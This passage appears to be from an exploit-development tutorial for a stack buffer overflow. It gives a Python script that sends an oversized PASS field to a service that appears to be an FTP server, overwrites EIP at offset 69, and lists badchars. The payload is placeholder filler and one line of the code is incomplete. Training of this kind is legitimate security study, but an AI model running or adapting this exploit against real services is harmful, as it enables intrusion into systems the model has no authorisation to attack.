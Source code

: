 ```
#################### Exploit
# Target crashes at "A" * 2700____________________ (# bytes: qty of char "A")
# Badchars: "\x00\x19\x1a\x1b\x1c"________________ (\xXX hex string)
# Pattern-generated EIP: "Ac3A"___________________ (4 bytes in hex)           #MOD
# Specific offset (splat) is 69___________________ (# bytes)                  #MOD
# Usable JMP ESP at ______________________________ (little-endian hex addr)

sploit  = ""
sploit += ""           # protocol reqts
sploit += ""           # badchar test
sploit += ""           # pattern_create                                       #MOD
sploit += "A" * 69     # splat                                                #MOD
sploit += "B" * 4      # eip                                                  #MOD
sploit += ""           # nopsled
sploit += ("C" * 375) + ("D" * 2000)    # payload                             #MOD
sploit +=              # nopsled

#################### Communication

# Standup
printinfo(["Creating socket ..."])
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
printinfo(["Connecting to", ip, "on port", port, "..."])
connect = s.connect((ip, port))
s.recv(1024)

# Interact
printinfo(["Sending username \"test\" ..."])
s.send('USER test\r\n')
s.recv(1024)
printinfo(["Sending password of", len(sploit), "bytes..."])
s.send('PASS ' + sploit + '\r\n')

# Result
printresult(["Exploit sent. Attack complete."])

# Teardown
printinfo(["Quitting connection."])
s.send('QUIT\r\n')
s.close()
```

Run the exploit script.

```
root@kali:~# python sploit.py
```

The program should crash with EIP set to `42424242`. Analyze the stack and look for several ASCII Ds, or `\x44`. If you see at least some of your Ds, then you can assume all 375 Cs made it onto the stack, which indicates you have at least 375 bytes of space for your payload. If you don't see those Ds, then count the Cs to determine how much space you have. You really want to have 350 bytes or more of space for a post-EIP payload. (Otherwise, you'll have to place your payload in the splat (offset) portion of your buffer data and add a JMP back to the start of the payload's nopsled.)
